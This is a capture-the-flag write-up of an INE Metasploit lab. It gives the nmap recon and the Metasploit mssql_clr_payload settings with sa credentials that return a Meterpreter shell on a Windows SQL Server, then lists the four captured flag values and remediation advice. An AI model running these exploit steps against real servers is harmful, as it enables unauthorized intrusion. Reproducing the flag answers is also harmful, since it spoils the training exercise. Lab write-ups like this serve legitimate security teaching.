










# CTF Report: The Metasploit Framework I

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** target.ine.local (10.2.25.15) — WIN-5BQ22OKH4SO, Windows Server 2012 R2<br>
**Attacker:** 10.10.49.4 (Kali)<br>
**Objective:** Use Metasploit and manual investigation to capture four flags.

## 1. Executive Summary

The target runs **Microsoft SQL Server** on 1433. Metasploit's `mssql_clr_payload` module
enables CLR integration and executes a custom assembly, returning a Meterpreter session as
`NT Service\MSSQLSERVER`. From there we locate four flags across the C: drive, the Windows
config/drivers directories, and the Administrator's desktop.

## 2. Recon

```bash
ping -c 4 target.ine.local      # 10.2.25.15
db_nmap -sV 10.2.25.15
services
```









## 3. Flag 1 — MSSQL CLR Payload

```bash
search mssql
use exploit/windows/mssql/mssql_clr_payload
set RHOSTS 10.2.25.15
set USERNAME sa
set PASSWORD <password>
run
```



The module enables TRUSTWORTHY/CLR, runs the payload and opens a Meterpreter session as the
SQL service account.

```
getuid    # NT Service\MSSQLSERVER
sysinfo   # WIN-5BQ22OKH4SO — Windows Server 2012 R2
```



The first flag is in `C:\`.

```
Flag 1: c2f4a3c3a68744e288c8a95f32b6b7ff
```



## 4. Flag 2 — Windows Config Folder

```
cat C:\Windows\System32\config\flag2.txt
```

```
Flag 2: e969de00cca3442d8842a3cd78353ba3
```



## 5. Flag 3 — System Directory

```
cat C:\Windows\System32\drivers\etc\flag3.txt
```

```
Flag 3: b0764450348d43edbd433028a9392250
```



## 6. Flag 4 — Administrator Directory

```
cat C:\Users\Administrator\Desktop\flag4.txt
```

```
Flag 4: 89148e14379f4c27a9edf16f505831d6
```



## 7. Remediation Recommendations

1. **Harden MS SQL Server** — enforce strong `sa`/login passwords (or disable `sa`), and
   disable CLR integration and the TRUSTWORTHY database property where not required.
2. **Run SQL Server with least privilege** and restrict the service account's filesystem
   access.
3. **Restrict network access to 1433** to trusted application hosts only.
4. **Audit** `sp_configure 'clr enabled'` changes and CLR assembly creation.
